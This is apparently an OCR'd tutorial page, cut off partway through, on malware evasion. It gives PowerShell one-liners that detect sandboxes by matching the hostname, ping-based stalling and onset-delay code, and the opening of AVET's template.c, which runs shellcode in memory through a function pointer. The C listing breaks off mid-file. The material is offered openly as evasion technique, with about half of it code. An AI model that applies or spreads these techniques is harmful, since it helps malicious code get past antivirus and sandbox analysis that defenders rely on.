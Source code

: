       the next powershell script checks if we are running in a sandbox environment by
      extracting target hostname and compare it with knonw sandbox's hostnames.

<br />

      $h=hostname;if ($h -match "Sandbox" -Or $h -match "Maltest" -Or $h -match "Malware" -Or $h -match "ClonePC") {write-Host "";write-Host "SandBox : detected .." -ForeGroundColor red;write-Host "Hostname: $h" -ForeGroundColor red;}else{write-Host "";write-Host "SandBox : not detected .." -ForeGroundColor green;write-Host "Hostname: $h" -ForeGroundColor green;powershell Get-Date;Start-Sleep 3}

![enigma0x3 - AMSI Bypass](http://i.cubeupload.com/lisJ35.png)

[sandbox-detection.ps1 demo script can be found here:](https://pastebin.com/qhgDvcrF)<br />

      Next example uses 'stalling + Onset delay' technics to bypass the sandbox environment.
      Onset delay: Malware will delay execution to avoid analysis by the sample.
      For example, a external Ping can be perform during a pre-defined time. 

      Stalling code: This technique is used for delaying execution of the real malicious code.
      Stalling code is typically executed before any malicious behavior. The attacker’s aim is
      to delay the execution of the malicious activity long enough so that an automated dynamic
      analysis system fails to extract the interesting malicious behavior. 

<br />

      $h=hostname;if ($h -match "Sandbox" -Or $h -match "Maltest" -Or $h -match "Malware" -Or $h -match "ClonePC") {write-Host "";write-Host "SandBox : detected .." -ForeGroundColor red;write-Host "Hostname: $h" -ForeGroundColor red;ping -n 6 -w 100 www.microsoft.com > $env:tmp\license.pem;powershell Get-Date;Start-Sleep 3}else{write-Host "";write-Host "SandBox : not detected .." -ForeGroundColor green;write-Host "Hostname: $h" -ForeGroundColor green;powershell Get-Date;Start-Sleep 3}

![enigma0x3 - AMSI Bypass](http://i.cubeupload.com/TO8qsd.jpg)

---

      This next technic writes a file to disk before executing shellcode into target ram ..
      'Template taken from Avet anti-virus evasion tool presented in blackhat 2017'.

<br />

![avet bypass](http://i67.tinypic.com/2chpeed.png)


<br />

**template.c** from AVET<br />

```
      #include <stdio.h>
      #include <stdlib.h>
      #include <unistd.h>
      #include <string.h>
      #include <windows.h>
      #include <tchar.h>
      #include <stdlib.h>
      #include <strsafe.h>

      void exec_mycode(unsigned char *mycode)
      {
        int (*funct)();
        funct = (int (*)()) mycode;
        (int)(*funct)();
      }


      int main (int argc, char **argv)
      {
      /*
```